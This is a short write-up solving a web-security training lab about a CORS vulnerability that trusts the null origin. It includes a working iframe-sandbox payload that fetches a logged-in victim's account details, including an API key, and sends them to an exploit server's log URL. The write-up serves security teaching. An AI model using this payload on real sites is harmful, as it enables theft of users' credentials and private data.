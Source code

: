 # Lab: CORS vulnerability with trusted null origin

Log in and notice that the user's api key is displayed on the account page. Check the proxy history to see that the /my-account request makes a request to /accountDetails to retrieve this information. Send the request to the repeater and add the header `Origin: null`. Notice that the response reflects the origin in the `Access-Control-Allow-Origin` header, indicating that there is a CORS vulnerability.

Use the following script to deliver to the victim via the exploit server, where the target website is accessed and logged on the malicious server:
```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="data:text/html,<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://ac2b1f291e193163c0ab42bc00b30040.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
    location='//exploit-acca1f061ef43187c09e427e01260052.web-security-academy.net/log?response='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```

This uses an iframe sandbox to generate a null origin request. 

Check the access log to see the response and find the api key. Submit to complete the lab.